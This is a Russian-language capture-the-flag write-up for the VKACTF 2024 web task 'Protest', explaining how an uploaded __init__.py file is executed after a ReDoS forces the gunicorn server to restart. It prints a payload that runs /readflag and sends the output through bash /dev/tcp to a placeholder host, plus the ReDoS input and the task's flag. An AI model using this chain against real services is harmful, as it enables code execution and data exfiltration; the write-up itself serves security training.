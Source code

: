 ## Protest

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2024 | Protest  | Web | Hard |

  
### Описание


> Автор: [ EGM ]
>
> Протесты в городе обычное дело, нужно их решать! Бери молоток и беги к рабочим на стоянку!


### Решение

1. Сервис позволяет переводить текстовые файлы в картинки, но имя файла проверяется по регулярке.
```
def check_filename(checked_file):
    random_uuid = str(uuid.uuid4())
    res = re.match(r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$', checked_file)
    safe_filename = random_uuid if res is None else checked_file
    return safe_filename
```

2. Из скрипта ```run.sh``` ,понимаем, что сервер поднимается с помощью ```gunicorn``` сервера.

3. Использем при загрузке файл ```__init__.py``` с нагрузкой которая отправит файл на свой сервер ```"__import__('os').system('bash -c "/readflag>/dev/tcp/host/port"')"```

4. Необходимо перегрузить ```gunicorn```, чтобы выполнился новый ```__init__.py``` файл. Воспользуемся redos на 
```
r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$'
aaaaaaaaaaaaaaaaa!
```
5. Сервер перезагрузится с новым ```__init__.py``` файлом и отправит флаг на ваш сервер. 

### Эксплоит
![ez_exploit.py](../give/ez_exploit.py)

### Флаг

```
vka{6Un1p0rn_0r_Pun1c0rn}
```
